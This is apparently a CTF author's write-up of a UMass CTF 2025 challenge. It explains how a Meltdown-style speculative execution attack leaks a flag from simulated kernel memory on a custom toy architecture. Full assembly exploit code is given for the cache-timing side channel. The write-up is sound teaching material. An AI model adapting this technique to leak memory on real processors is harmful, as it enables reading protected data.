

This is a challenge I wrote for UMass CTF 2025 using a special version theLEG™ computer architecture.  I'll have a separate series of blog posts on the architecture itself and why it is interesting, but for this I want to go over the specifics of the challenge.

## The Challenge
Participants in the CTF were given the following prompt:

> TheLEG™ just got updated with a brand new UI and speculative execution extension! Surely no one can read data from kernel space...
>
> The flag is at address 0x800000
>
> Source for this challenge can be found at: http://bit.ly/43UdRzz
>
> It is highly recommended to try solutions locally before running them on remote, it will be easier to debug and MUCH faster.

They were also provided a remote server with a web interface that looks like this:



## The LEG
The LEG is a very minimal ARM based architecture that was originally designed for the CS535 class at UMass Amherst.  It has a fixed length 32 bit instruction, and can only address on registers and immediate values.  

For this challenge, I wrote a LEG simulator in Python that has an out of order execution extension based on Tomasulo's Algorithm and a G-share branch predictor. It also supports hardware exception handling for certain limited exceptions.

## The Vulnerability
This version of the LEG can be attacked with a version of the Meltdown vulnerability that affects certain Intel processors.  A good place to begin learning about this vulnerability is [with the initial paper that reported it](https://meltdownattack.com/meltdown.pdf).  The paper is well constructed and explains the attack well, which is somewhat uncommon in academic attack papers.

## Running the Exploit
The exploit can be thought of in a series of steps:

### Step 1: Access kernel memory
We know the flag is at 0x800000, so the first step is to load the data from that address into a register.

```asm
mov r0, 0x8000
lsl r0, 0x8
ldr r1, r0
```

We now have the data from the kernel address in a reorder buffer entry that will write to `r1`.  If we run this as it is though, it will throw an exception and the data will never make into the physical register, so we'll never see it.

### Step 2: Store the data before the exception handler finishes
The next thing we have to do is leak the data.  The key insight is that the value from the kernel exists in the reorder buffer for around 50 clock cycles before it is wiped, and other instructions can access that data in the meantime.

An easy side channel can be established through cache timings.  First, we need to flush the cache so it is completely empty.  This means any cache access will take roughly 15 cycles.
```asm
flush
```

Next, take the value that was retrieved from the kernel.  We'll leak one byte at a time, so we'll shift and mask so we only have one byte from the word the kernel returned:
```asm
lsr r1, 24
and r1, 0xFF
```
Once we have the byte, we multiply it by the size of a cache line (64), then access the cache at the index of the kernel value.  This means there will only be one "hot" line in the cache - the line at the index of the kernel value.

```asm
lsl r1, 0x6
ldr r2, r1
```

### Step 3: Handle the exception
We now wait for the exception to throw and handle it without crashing.  This can be done through the LEG interface.  The exact address will change for each program, but the following is an example:
```asm
.handler DATA_ABORT
    b 0x20
```

### Step 4: Retrieve the value from the cache
To retrieve the value, we will loop through each line of the cache, and save the index that returns its data the fastest.  This will be the "hot" cache line, and will be at the index that was determined by the kernel byte!

```asm
mov r1, 0x1      ; current fastest
mov r4, 0xFFF    ; fastest time
mov r2, r1       ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40 
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c        ; timing not the fastest, skip store
mov r4, r7      ; timing fastest seen, store index
mov r1, r2

add r2, 0x1     
cmp r2, 0x100
ble 0x50        ; loop back to beginning if still bytes to check

; Store result
str r1, 0x100
```

The memory address at 0x100 will contain the first byte of the flag!

## Final solution
The following script and exception handler will dump the whole flag when run against the LEG.  It is the same as the principle outlined above, but has a few more bells and whistles with the assembly.

```asm
; Setup
mov r9, 0x30
mov r10, 0x0     ; iterations
mov r11, 0x100   ; place to store flag

; Access kernel addr
flush             ; clean cache
mov r0, 0x8000
lsl r0, 0x8
add r0, r10
ldr r1, r0

; Access cache at kernel addr
mov r3, r10
mod r3, 0x4
mul r3, 0x8
mov r4, 0x18
sub r4, r3
lsr r1, r4
and r1, 0xFF
lsl r1, 0x6
ldr r2, r1

; Check to see which line is the fastest
; Setup
mov r1, 0x1     ; current fastest
mov r4, 0xFFF   ; fastest time
mov r2, r1      ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40    ; cache line length
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c
mov r4, r7
mov r1, r2

add r2, 0x1
cmp r2, 0x100
ble 0x50

; Store result
str r1, r11
add r11, 0x4
add r10, 0x1

; check to see if we should finish
cmp r9, r10
bge 0x0c
halt
```

```asm
.handler DATA_ABORT
    b 0x20
```

## Final Thoughts
I enjoyed making this challenge, and felt like I learned a lot while doing it.  Hopefully if you played it you enjoyed it too.